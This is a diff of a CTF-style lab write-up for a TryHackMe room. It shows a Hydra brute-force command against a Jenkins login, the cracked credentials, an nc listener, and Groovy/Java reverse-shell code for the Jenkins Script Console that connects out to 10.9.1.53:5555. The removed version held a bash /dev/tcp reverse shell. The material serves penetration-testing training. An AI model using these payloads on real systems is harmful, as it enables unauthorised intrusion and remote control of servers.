

Before and after one commit to tymyrddin/red-escalation, a Sphinx documentation site: the page built from source/docs/thm/internal.md, in a window 1280 px wide and 1400 px high, scrolled down 7097 px. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours.

````diff
--- a/source/docs/thm/internal.md
+++ b/source/docs/thm/internal.md
@@ -364,7 +364,21 @@ build the hydra command.
 Hydra:
 
 ```text
-$ hydra -l admin -P /usr/share/wordlists/rockyou.txt <IP target> -s 8888 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"
+hydra -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 -s 1234 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"
+```
+
+Results:
+
+```text
+Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
+
+Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-10-03 03:30:55
+[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
+[DATA] attacking http-post-form://127.0.0.1:1234/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password
+[STATUS] 418.00 tries/min, 418 tries in 00:01h, 14343981 to do in 571:56h, 16 active
+[1234][http-post-form] host: 127.0.0.1   login: admin   password: spongebob
+1 of 1 target successfully completed, 1 valid password found
+Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-10-03 03:32:15
 ```
 
 Log in to Jenkins with the found username and password.
@@ -375,13 +389,14 @@ Start a listener:
 
     nc -nlvp 5555
 
-In Jenkins, go to "Jenkins > Nodes > master" and click on "Script Console". Enter (change the
-necessary parameters):
+In Jenkins, go to "Manage Jenkins > Nodes > master" and click on "Script Console". Enter (change the
+necessary parameters) this code from
+[Abusing Jenkins Groovy Script Console to get Shell](https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6):
 
 ```text
-r = Runtime.getRuntime()
-p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/<IP attack machine>/5555;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
-p.waitFor()
+String host="10.9.1.53";
+int port=5555;
+String cmd="cmd.exe";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
 ```
 
 And execute. In the listener, we now have a reverse shell in docker. In `/opt` is a message
````
